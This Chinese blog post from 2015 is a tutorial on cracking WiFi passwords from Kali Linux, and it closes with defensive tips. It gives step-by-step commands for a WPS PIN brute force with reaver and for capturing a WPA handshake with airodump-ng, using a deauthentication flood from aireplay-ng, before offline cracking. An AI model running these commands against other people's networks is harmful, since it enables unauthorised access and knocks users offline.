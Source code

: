 ```yaml
---
title: Kali系统下WiFi密码破解
date: 2015-11-01 11:01:00
category: Linux
tags: 
    - Linux
---
```


在网络渗透中,能够接入被攻击者的网络至关重要,只要黑客接入你的网络,利用DNS欺骗,arp攻击等各种钓鱼技术,基本上就能获取一切信息,WIFI网络的安全性重要性不言而喻!

手机上有很多类似360免费WIFI和WIFI万能钥匙的软件,可以"破解"WIFI密码,实际上这类软件不是"破解"而是"偷"密码,这类软件在安装的时候会自动上传你家的WIFI密码,也有可能是你一不小心分享出去的!分享之后别人使用软件就能连上你家的WIFI了,一般来说,商家WIFI比较多。

<!--more-->

## 常见的WIFI破解技术有2种:

攻击测试环境:kali linux 64位,可以安装双系统,如果用虚拟机的话必须要用外置USB网卡!

### 1.PIN

该技术主要利用路由器的wps功能的bug,PIN 码分前4 和后4，先破前4 只有最多一万个组合，破后4 中的前3 只有一千个组合，一共就是一万一千个密码组合。 10 的4 次方+10 的3 次方=11000 个密码组合。当reaver 确定前4 位PIN 密码后，其任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了。总共一万一千个密码!

主要攻击工具:reaver,该工具十分强大,有很多配置参数,这里只列出最简单的攻击步骤,仅供参考:
```
1.airmon-ng start wlan0 #启动网卡的监听模式
2.airodump-ng wlan0mon  #查看周围区域所有WIFI信号情况
3.reaver -i wlan0mon -b AP_MAC -vv  #开始pin
4.reaver -i wlan0mon -b AP_Mac -p WPS_PIN  #得到pin值获取密码
```

>其实现在很多路由器都关闭了wps功能,所以没法pin,而且很多新的路由器都是防pin!

### 2.暴力穷尽破解

该技术理论上只要计算机计算能力够强大,没有什么密码破解不了!只是时间长短的问题.先抓握手包然后跑包!

主要工具: aircrack-ng
```
1.airmon-ng check kill        #kill一些无关进程
2.airmon-ng start wlan0       #开启网卡监听模式
3.airodump-ng wlan0mon        #查看周围区域所有WIFI信号情况
4.airodump-ng -c 信道 --bssid 目标mac -w wep wlan0mon   #开始抓包
5.airodump-ng -c 信道 --bssid 目标mac wlan0mon  #查看当前环境的WiFi连接情况
6.aireplay-ng --deauth 10000 -a 目标mac -c 客户端mac wlan0mon   #对连接到目标ap的客户端攻击,使其掉线,抓取握手包!
```

备注:抓包的关键是第6步抓取握手包,所谓握手包就是对方设备掉线后重新连接WIFI时候的数据包,只要抓到握手包就可以了。

拿到握手包后切换到windows系统,用EWSA等软件跑包,跑包速度看机器配置,主要是看显卡配置,本人笔记本i7+gt750M,一秒钟2万次,其实也看运气,如果是弱密码,分分钟钟的事情,如果是包含字母\标点符号\特殊符号的密码......那几乎不可能!

### 3.防备措施:
1. 不要安装 xxx免费WIFI等软件,如果不小心把密码分享出去的话,只能改密码了!

2. 关闭路由器wps功能.此功能大部分人都用不到

3. 隐藏ssid.这样别人就搜不到你家的WIFI信号，虽然用途并不大

4. 使用复杂密码,包含字母\标点符号\特殊符号!这招最有效
